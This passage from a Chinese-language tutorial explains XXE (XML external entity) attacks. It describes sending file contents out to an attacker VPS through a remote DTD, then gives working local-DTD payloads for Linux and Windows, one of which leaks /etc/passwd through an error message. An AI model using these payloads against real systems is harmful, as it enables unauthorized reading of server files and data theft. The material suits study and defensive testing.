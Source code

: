 ![image.png](assets/1700812438-99b02e729a484c6d7cb84b099ee2c0c9.png)

**整个调用过程：**

这种攻击方式关键在于构造合适的payload，通过连续调用参数实体，将远程服务器上的test.dtd文件包含进来，然后利用%file实体获取服务器上的敏感文件。最后，通过%send实体将读取到的数据发送到远程VPS上。

2、无法引用外部DTD

当目标服务器和攻击者之间存在防火墙，或者网络访问受到限制时，可能无法直接引用外部的DTD文件。在这种情况下，使用本地DTD文件是一个很好的替代方案。

要找到本地的DTD文件，可以进行枚举文件和目录。

Linux

```php
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamsa 'Your DTD code'>
%local_dtd;
```

Windows

```php
<!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
<!ENTITY % SuperClass '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
<?xml version="1.0" ?>

<!ENTITY % condition 'aaa)>
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    <!ELEMENT aa (bb'>
%local_dtd;
]>
```